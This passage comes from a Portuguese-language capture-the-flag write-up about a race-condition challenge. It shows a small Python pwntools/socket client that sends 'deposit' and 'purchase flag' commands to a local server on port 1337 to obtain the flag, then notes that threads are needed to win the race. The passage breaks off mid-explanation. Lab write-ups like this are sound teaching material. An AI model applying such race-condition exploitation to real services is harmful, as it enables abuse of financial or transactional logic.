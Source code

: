 ```
    return 0;
}
```

Então a função main da origem a um servidor na porta 1337 que aceita os comandos. Então a nossa função é criar um client que acessa esse servidor, envia 2 mensagens e recebe a flag.

```
from pwn import *

host = 'localhost'
port = 1337

conn = remote(host, port)

sock = conn.sock

sock.sendall(b"deposit\n")

response = sock.recv(1024)
print(response.decode())

sock.sendall(b"purchase flag\n")

with open("flag", "wb") as f:
    while True:
        data = sock.recv(1024)
        if not data:
            break
        f.write(data)

print("Arquivo 'flag' recebido com sucesso!")

conn.close()
```

Então codamos um exploit base usando a biblioteca pwntools do python. O código é bem simples, enviamos em bytes um pedido de deposito, depois enviamos o pedido de compra e recebemos a flag.

<img src="imgaes/SprintFirstStep.png">

O nosso script python tem 2 erros. Como se trata de Race condition precisamos de todas ações em paralelo, isso nos obriga a usar Threads do python, o segundo erro é que estamos tendo uma mensagem dizendo que o pwntools está tendo problemas então precisamos usar socket para se conectar ao servidor. Mais uma vez solicitaremos o auxilio do nosso amigo Gepeto

<img src="imgaes/SecondStep.png">


<img src="imgaes/Execute.png">

Primeiro obstaculo, como estamos trabalhando com threads e é um race condition, precisamos instanciar socket em todas as threads e colocar em loop:
